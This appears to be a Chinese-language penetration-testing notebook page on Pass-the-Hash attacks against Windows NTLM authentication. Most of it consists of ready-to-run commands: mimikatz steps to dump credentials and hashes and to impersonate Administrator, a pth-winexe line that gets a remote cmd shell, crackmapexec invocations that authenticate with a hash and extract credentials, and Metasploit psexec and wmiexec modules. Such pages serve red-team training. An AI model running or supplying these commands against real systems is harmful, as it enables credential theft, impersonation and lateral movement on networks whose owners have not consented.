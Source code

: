 ```yaml
---
description: 基于NTLM认证 / 不需要知道明文密码 / 较旧的且使用NTLM协议的系统
---
```


# ✔️ 哈希传递 - Pass The Hash

## 先决条件

* 需要找到目标用户账户的NTLM哈希
* 目标域名
* 目标系统必须支持SMB / WMI / RPC 等远程认证协议

## 具体实现

### 技术原理

* 利用已知哈希值来进行身份验证，不需要知道账户的明文密码

## 常用工具

### mimikatz.exe

```powershell
mimikatz.exe
# 权限提升
privilege::debug
# 获取详细的用户凭证信息
sekurlsa::logonpasswords full
# 列出当前用户的凭据
lsadump::lsa /patch
# 获取DC上的所有域用户的NTLM哈希
sekurlsa::msv
# 执行，以允许在目标域中以administrator的身份使用NTLM哈希来进行身份验证
sekurlsa::pth /user:Administrator /domain:target.com /ntlm:123CDVEE.....NDFE6654GDS
# 使用例如pth-winexe之类的的工具执行自定义的程序（如cmd.exe可获得一个目标上的shell）
```

### pth-winexe

* 当找到了目标账户的NTLM哈希之后，可以将其当成密码来使用，绕过输入明文密码来进行身份验证，从而获取到shell：

```bash
# pth-winexe -U [域名/用户名]%[hash] //[目标IP] cmd.exe
pth-winexe -U Administrator%00000000000000000000000000000000:123CDVEE.....NDFE6654GDS //192.168.xxx.xxx cmd
```

### Impacket

* 几个常用脚本，按实际情况在该工具的/examples目录中选择合适脚本：

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

### Crackmapexec

```bash
# 使用NTLM哈希进行身份验证
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD
# 在域环境中使用NTLM哈希进行身份验证
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD -d target.com
# 列出活动会话
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --sessions
# 利用NTLM哈希来获取TGT票据
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --kerberos
# 利用NTLM哈希直接使用mimikatz提取凭据
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --mimikatz
# 仅以smb模块举例，还有其他模块
```



### Metasploit

```bash
# psexec模块
use exploit/windows/smb/psexec
# wmiexec模块
use auxiliary/admin/smb/wmiexec
# smb_login模块
use auxiliary/scanner/smb/smb_login
# smbexec模块
use exploit/windows/smb/smbexec
```

{% hint style="info" %}
哈希传递攻击分为针对本地用户账户和域用户账户，通过抓取目标用户的NTLM哈希来绕过明文密码登录，其本质就是冒充特定的用户账户。
{% endhint %}
